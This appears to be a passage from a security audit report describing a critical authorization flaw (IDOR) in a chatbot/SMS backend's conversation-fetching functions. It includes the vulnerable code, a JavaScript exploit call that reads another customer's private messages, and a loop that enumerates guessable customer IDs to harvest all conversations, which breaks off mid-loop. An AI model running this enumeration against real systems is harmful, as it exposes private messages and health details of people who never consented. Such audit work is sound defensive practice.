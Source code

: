 
### 6. 🔴 Conversation History Access Without Authorization
**Severity:** CRITICAL (CVSS: 8.1)  
**CWE:** CWE-639 (Insecure Direct Object Reference)

**Affected Functions:**
- `getAIConversation` (functions/src/ai-chatbot.ts:496)
- `getSMSConversation` (functions/src/sms.ts:462)
- `getAISMSConversation` (functions/src/sms-ai-integration.ts:461)

**Vulnerability Details:**
```typescript
// Line 496-505 in ai-chatbot.ts
export const getAIConversation = onCall(
  { region: 'us-central1', cors: true, enforceAppCheck: true },
  async (req) => {
    const { customerId } = req.data || {};
    const userId = req.auth?.uid;
    
    if (!userId) {
      throw new HttpsError('unauthenticated', 'Must be authenticated');
    }
    // ❌ NO CHECK: Does userId == customerId?
    // ❌ NO ADMIN CHECK
    // Any authenticated user can read ANY customer's conversations
```

**Exploitation:**
```javascript
// Customer A logs in
const myId = auth.currentUser.uid;

// Customer A can read Customer B's private conversations
const customerBId = 'some-other-customer-id';  // Obtained from URL/leaked data
const convos = await functions.httpsCallable('getAIConversation')({
  customerId: customerBId
});

console.log(convos.data.messages);
// Output: ALL private messages of Customer B, including:
// - Personal health information
// - Contact details
// - Booking preferences
// - AI analysis results
```

**Attack Vector - IDOR Chain:**
```javascript
// 1. Enumerate customer IDs (they're sequential/guessable)
const potentialIds = [];
for (let i = 0; i < 1000; i++) {
  potentialIds.push(`customer-${i}`);
}

// 2. Harvest all conversations
const allConversations = [];
for (const customerId of potentialIds) {
  try {
    const convos = await getConversation(customerId);
    if (convos.messages.length > 0) {
      allConversations.push({
        customerId,
        messages: convos.messages
      });
    }
  } catch (e) {
```